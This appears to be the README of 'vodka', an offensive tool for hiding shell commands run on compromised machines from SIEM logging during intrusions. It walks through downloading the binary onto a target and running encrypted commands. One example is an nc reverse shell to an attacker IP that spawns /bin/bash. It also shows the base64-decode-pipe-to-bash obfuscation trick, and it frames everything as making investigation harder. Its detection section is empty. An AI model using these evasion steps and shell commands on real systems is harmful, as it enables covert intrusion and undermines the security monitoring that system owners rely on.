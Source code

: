 
<div align="center">
 <h1> vodka 🧊</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>vodka</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, vodka execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🧊<sub>(hide from)</sub></a>; <a href="#detection">👁️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/vodka/releases/latest/download/vodka

## Execute it
./vodka

## You are now under the radar
vodka » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
vodka » [command]
```

### from non interactive shell

Imagine you have a non interactive shell (webshelk or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `vodka` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build vodka with encryption key
make build.vodka-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
vodka encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./vodka decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use vodka normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Cause we want to make investigation difficult and base64 isn't a real brake

## Hide from

Only the `vodka` lauch command line will be catched

## Detection
